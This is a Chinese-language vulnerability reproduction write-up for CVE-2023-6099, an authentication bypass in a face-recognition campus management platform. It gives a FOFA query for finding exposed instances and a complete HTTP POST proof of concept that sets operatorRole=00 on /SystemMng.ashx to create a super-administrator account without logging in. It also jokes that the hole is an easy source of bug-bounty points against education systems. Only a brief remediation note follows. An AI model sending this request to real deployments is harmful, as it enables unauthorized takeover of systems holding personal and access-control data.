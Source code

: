 
# 优卡特脸爱云一脸通智慧管理平台权限绕过漏洞复现（CVE-2023-6099）

### 0x01 产品简介

   脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。

   功能包括：系统管理中心、人员信息管理中心、设备管理中心、消费管理子系统、订餐管理子系统、水控管理子系统、电控管理子系统、考勤管理子系统、门禁通道管理子系统、会议签到管理子系统、访客管理子系统

### 0x02 漏洞概述

  脸爱云一脸通智慧管理平台/SystemMng.ashx 接口处存在权限绕过漏洞，通过输入 00 操纵参数 operatorRole，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户，造成信息泄露和后台接管（edu 刷分神洞）

### 0x03 影响范围

  version <=1.0.55.0.0.1

### 0x04 复现环境

FOFA：title=="欢迎使用脸爱云 一脸通智慧管理平台"

![](assets/1700442551-8c5182188b60c424ac9502811d1dbb95.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /SystemMng.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

operatorName=test&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![](assets/1700442551-bdc94d0d376516bdaeddbc219fa2fdbd.png) PS：成功创建了超级管理员 test/123456

登录后台验证

### ![](assets/1700442551-a98e26a302de9590c139e6bf7de436dc.png)0x06 修复建议

关闭互联网暴露面接口设置访问权限

升级至安全版本
